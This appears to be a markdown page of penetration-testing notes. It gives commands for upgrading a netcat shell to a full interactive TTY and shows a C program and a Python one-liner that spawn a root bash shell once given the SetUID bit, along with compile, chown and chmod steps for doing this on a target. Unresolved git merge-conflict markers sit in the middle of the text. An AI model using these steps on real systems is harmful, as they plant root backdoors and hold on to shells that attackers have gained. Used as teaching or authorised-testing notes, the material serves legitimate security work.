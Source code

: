# Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>
```

## SetUID 

### C Version

If you need a basic C program that you can set the SetUID bit, use this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }
```

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

```bash
gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid
```

<<<<<<< HEAD
### Python Version
=======
## Python Version
>>>>>>> 8ca2d79c92602facb3fda5fdd3efb5cbdb4b0dd5

If compiling a C program is annoying, an alternative method is to SetUID the python executable. Rather than using the system one, it's better to copy the python executable on the system somewhere else, and then SetUID your temporary copy. Then, run the following:

```python
python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

